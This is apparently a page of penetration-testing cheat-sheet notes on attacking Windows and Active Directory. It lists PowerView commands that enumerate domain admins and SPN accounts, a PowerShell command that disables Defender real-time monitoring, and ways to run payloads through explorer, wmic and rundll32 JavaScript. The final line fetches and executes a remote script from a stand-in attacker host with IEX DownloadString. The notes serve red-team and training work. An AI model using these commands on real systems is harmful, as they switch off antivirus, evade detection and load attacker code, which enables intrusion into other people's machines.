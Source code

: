 ## powerview
```
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select MemberName
Get-DomainUser -Properties samaccountname, logoncount
Get-DomainComputer | select name, logoncount
Get-DomainUser -SPN
```


# AV Bypass Techniques
## Turn off AV from Powershell 
```
Check if AV is on - RealTimeProtectionEnabled
Get-MPComputerStatus

Turn off AV
Set-MpPreference -DisableRealtimeMonitoring $true

Check again if set to false
Get-MPComputerStatus

Some machines may have tamper protection and is easier to turn off with RDP session.
```
## Execute payloads with explorer
```
explorer.exe /root,"C:\Windows\System32\calc.exe"
```
## Signed Binary Proxy Execution
```
wmic.exe process call create calc
```
## Execute payloads with rundll32.exe binary
```
For reference the binaries are located here:
    C:\Windows\System32\rundll32.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\rundll32.exe for the Windows 64 bits version

Run this:
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```
## Execute powershell scripts
```
# Execute with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://attacker_IP/script.ps1');");
```
